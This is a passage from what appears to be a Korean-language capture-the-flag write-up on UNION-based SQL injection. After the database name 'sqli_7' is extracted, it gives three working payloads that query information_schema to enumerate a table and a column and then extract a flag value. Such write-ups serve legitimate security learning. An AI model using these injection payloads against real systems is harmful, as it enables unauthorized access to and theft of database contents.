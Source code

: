 ![데이터베이스](/assets/screenshots/sqli-point/sqli_7_database.png)

페이지 하단에 존재하지 않던 새로운 행이 추가되었고,
**User ID 열에 `sqli_7`이 출력**되며 현재 사용 중인 데이터베이스 이름이 성공적으로 추출되었음을 확인할 수 있었다.

> **데이터베이스 이름: `sqli_7`**

데이터베이스 이름을 확인했으므로, 이제 **`information_schema`를 활용해 테이블과 컬럼 정보**를 식별하고,
최종적으로 **플래그 값을 추출하는 단계**로 넘어가겠다.

```sql
username union select (select table_name from information_schema.tables where table_schema='sqli_7' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **테이블 이름: `flagTable`**

```sql
username union select (select column_name from information_schema.columns where table_schema='sqli_7' and table_name='flagTable' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **컬럼 이름: `flag`**

```sql
username union select (select flag from flagTable limit 2,1),2,3,4,5,6,7,8,9,10#
```
